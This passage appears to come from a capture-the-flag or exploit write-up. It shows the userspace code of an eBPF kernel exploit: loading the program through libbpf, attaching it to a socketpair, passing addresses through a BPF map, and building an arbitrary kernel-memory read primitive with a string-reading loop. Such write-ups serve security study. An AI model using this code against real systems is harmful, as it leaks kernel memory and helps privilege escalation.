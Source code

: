 The end construction of the eBPF assembly is in `healthcheck/exploit/bpf.bpf.S`.

Now we just need userspace. Loading eBPF is trivial with libbpf skeletons.
Attaching to a socket is most easily done with a UNIX socker pair which can
be constructed with a single syscall. IP sockets work too, but needs syscalls
to bind and connect.

```C
struct bpf_bpf *obj;
int prog_fd;
int sktpair[2];

obj = bpf_bpf__open_and_load();
prog_fd = bpf_program__fd(obj->progs.prog);
socketpair(AF_UNIX, SOCK_DGRAM, 0, sktpair);
setsockopt(sktpair[0], SOL_SOCKET, SO_ATTACH_BPF, &prog_fd, sizeof(prog_fd));
```

To communicate with the map, the libbpf functions `bpf_map_update_elem` and
`bpf_map_lookup_elem` works (they are wrappers around the
[bpf(2)](https://man7.org/linux/man-pages/man2/bpf.2.html) syscall).

```C
int key = 0;
long value = addr;

read:
bpf_map_update_elem(bpf_map__fd(obj->maps.communicate), &key, &value, 0);

write:
bpf_map_lookup_elem(bpf_map__fd(obj->maps.communicate), &key, &value);
```

To invoke the eBPF filter we can simply perform a `write` `read` pair on the
socketpair.

With that, we have a read kernel address primitive:

```C
write_map(addr);
write_read_socket();
return read_map();
```

Then we can read out a kernel string given a kernel address:

```C
while (true) {
        union {
                uint32_t u32;
                char str[4];
        } u;
        u.u32 = read_primitive(addr);

        for (int i = 0; i < 4; i++) {
                if (!u.str[i])
                        return;

                putchar(u.str[i]);
        }

        addr += 4;
}
```
